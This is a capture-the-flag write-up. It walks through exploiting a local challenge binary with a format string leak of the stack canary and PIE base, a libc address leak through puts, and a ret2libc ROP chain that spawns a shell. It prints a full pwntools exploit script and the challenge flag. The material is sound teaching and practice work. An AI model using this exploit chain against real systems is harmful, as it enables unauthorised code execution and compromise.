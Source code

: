 # Challenge Description

Do you hear, about ASLR and stack canary!!!

This is the privesc part of our PFA project,
if you solve it you are 1337 hacker
Author: YasseX

# Challenge Overview

This CTF is about bypassing ASLR and stack canaries to achieve a ret2libc attack.

To solve the challenge, we need to:
	-Leak a stack canary and the program base address (to bypass ASLR) using a format string vulnerability.
	-Leak a libc address (via puts) to calculate the libc base address.
	-Execute a ret2libc attack to spawn a shell (/bin/sh).

Step-by-Step Exploit

# 1. Leaking main address and stack canary (Format String Attack)

First, we abuse a format string vulnerability to leak two important values:
The address of the main function (to calculate the binary base address and defeat ASLR).
The value of the stack canary (to bypass the stack protector).
io.sendline(b'%17$p.%13$p')

This sends a format string payload.
We then parse the output:
leak_line = io.recvline().strip()
main_str, canary_str = leak_line.split(b'.')
main = int(main_str, 16)
canary = int(canary_str, 16)

From here:

main gives us the base address of the binary.
canary is the random stack canary value protecting the stack.

# 2. Calculating Important Addresses
Since the binary is position-independent (PIE enabled), we calculate actual addresses by knowing the offsets:
binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

This allows us to find:

getchar (in GOT)
puts (in PLT)
pop rdi; ret gadget
ret gadget (for stack alignment if needed)

# 3. Leaking a libc address
Next, we prepare a payload to leak the real address of getchar in libc using puts:
payload = b'Y' * 104
payload += p64(canary)
payload += b'Y' * 8
payload += p64(pop_rdi)
payload += p64(getchar)
payload += p64(puts)
payload += p64(main)

This sends the address of getchar to stdout using puts, allowing us to calculate the libc base address.

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))
libc_base = getchar_libc - getchar_libc_offset

# 4. Final ret2libc Attack
With the libc base address known, we can find:

system function
/bin/sh string

system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

Finally, we craft the final payload:
payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

This calls system("/bin/sh"), giving us a shell!


# Here is the full exploit used to solve the challenge:

from pwn import *

context.binary = 'shop'
elf = ELF('shop')
rop = ROP(elf)
io = process()


main_offset = 0x11e0
puts_plt_offset = 0x1040
getchar_got_offset = 0x4030
getchar_libc_offset = 0x86380
bin_sh_offset = 0x1a7e43
system_offset = 0x528f0
pop_rdi_offset = 0x11cc
ret_offset = 0x1016

io.sendline(b'%17$p.%13$p')
io.recvuntil(b'Welcome, ')

leak_line = io.recvline().strip()

main_str, canary_str = leak_line.split(b'.')

main = int(main_str, 16)
canary = int(canary_str, 16)

print('the main functions is : ',hex(main))
print('the canary is : ',hex(canary))

binary_base = main - main_offset
getchar = getchar_got_offset + binary_base
puts = puts_plt_offset + binary_base
pop_rdi = pop_rdi_offset + binary_base
ret = ret_offset + binary_base

io.sendline(b'4')

payload = b'Y' * 104
payload += p64(canary)
payload += b'YYYYYYYY'
payload += p64(pop_rdi)
payload += p64(getchar)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

io.recvuntil(b"------------------------------------------------")
io.recvline()
io.recvline()

getchar_libc = u64(io.recvline().strip().ljust(8, b"\x00"))

libc_base = getchar_libc - getchar_libc_offset
system_address = libc_base + system_offset
bin_sh_address = libc_base + bin_sh_offset

print("libc base : ",hex(libc_base))
print("system : ",hex(system_address))
print("/bin/sh : ",hex(bin_sh_address))


io.sendline(b'yassine')
sleep(0.1)
io.sendline(b'4')

payload = b'Y' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(pop_rdi)
payload += p64(bin_sh_address)
payload += p64(ret)
payload += p64(system_address)

io.sendline(payload)

io.interactive()


# Summary

Step			Purpose
Format String Leak	Leak main address and canary
Calculate Binary Base	To defeat PIE and ASLR
Leak Libc Address	Leak getchar and calculate libc base
ret2libc		Call system("/bin/sh") for a shell


# Flag : SECOPS{r3t2libc_1s_v3ry_c00l_att4ck}
